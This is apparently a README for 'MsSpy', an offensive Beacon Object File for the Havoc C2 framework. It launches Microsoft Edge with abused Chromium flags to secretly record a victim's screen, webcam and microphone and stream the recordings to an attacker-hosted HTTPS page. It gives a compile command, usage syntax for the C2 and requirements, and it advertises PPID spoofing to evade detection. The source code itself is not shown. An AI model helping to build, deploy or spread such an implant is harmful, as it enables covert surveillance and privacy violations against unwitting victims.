


# MsSpy (BoF)

## Overview

About a year ago, while browsing mr.d0x's blog, I came across two particularly interesting posts where he investigated Chromium-based browsers; specifically certain CLI flags that can be abused when launching a Chromium browser to silently enable screen and webcam sharing. For a thorough understanding of the research behind this, I highly recommend reading his original posts. Combining his research with ongoing Beacon Object File studies from MalDev Academy, I wanted to write a small BoF capable of spawning Microsoft Edge to capture the victim's screen, webcam, and microphone.

## Features

- PPID Spoofing: Used to blend in with regular system behaviour.

## Requirements

- Havoc C2
- HTTPS WebService
- MinGW or MSVC compiler

## Compilation

```bash
x86_64-w64-mingw32-gcc -o msspy.o -c BoF.c
```

## Usage

### WebService

The `webservice` folder contains all the required files to host the HTML and PHP logic responsible for capturing the victim's video, audio, and screen upon visiting the page.. 

*Remarks*: The web-browser api's used within the sites will only work when hosted on an HTTPS site.

### Havoc C2

```
MsSpy [camera|audio|screen] [https server] [PID for PPID spoofing]
```


### Example



## References

- [Havoc C2](https://github.com/HavocFramework/Havoc)
- [BOF Development](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)
- *Remarks*: At the time of writing, mr.d0x's blog is no longer publicly accessible for unknown reasons. However, it can still be visited with a little time-travel :)
